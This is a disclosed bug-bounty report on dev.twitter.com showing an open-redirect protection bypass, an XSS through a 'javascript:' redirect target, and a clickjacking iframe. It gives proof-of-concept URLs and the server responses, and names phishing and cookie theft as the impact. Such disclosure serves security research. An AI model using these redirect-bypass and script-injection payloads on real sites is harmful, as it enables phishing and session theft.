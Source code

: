 # [dev.twitter.com] XSS and Open Redirect Protection Bypass

## Report Details
- **Report ID**: 330008
- **URL**: https://hackerone.com/reports/330008
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-03-26T14:44:33.635Z
- **Disclosed**: 2019-02-07T16:32:13.022Z

## Reporter
- **Username**: bywalks
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
Description:
Hi 
after I finish reading the report https://hackerone.com/reports/260744.i start to test this subdomain.i fount an interesting url [https://dev.twitter.com/web/sign-inhttps://dev.twitter.com/basics/adding-international-support-to-your-apps].this url is special,my intuition tells me that this URL may have a problem.so,i try test,amzing i found a way to bypass protection.

PoC: Open Redirect
https://dev.twitter.com/web/sign-inhttps://dev.twitter.com/http://www.bywalks.com/

HTTP Response:
HTTP/1.1 302 Found
location: http://www.bywalks.com
...
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="http://www.bywalks.com">http://www.bywalks.com</a>.  If not click the link.

PoC: XSS
https://dev.twitter.com/web/sign-inhttps://dev.twitter.com/javascript:alert(1)/

HTTP Response:
HTTP/1.1 302 Found
location: javascript:alert(1)
...
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="javascript:alert(1)">javascript:alert(1)</a>.  If not click the link.

PoC: ClickJacking
<iframe src="https://dev.twitter.com/web/sign-inhttps://dev.twitter.com/http://www.bywalks.com/" sandbox="allow-forms"></iframe>

## Impact

go fishing.steal cookie,etc

## Attachments
No attachments
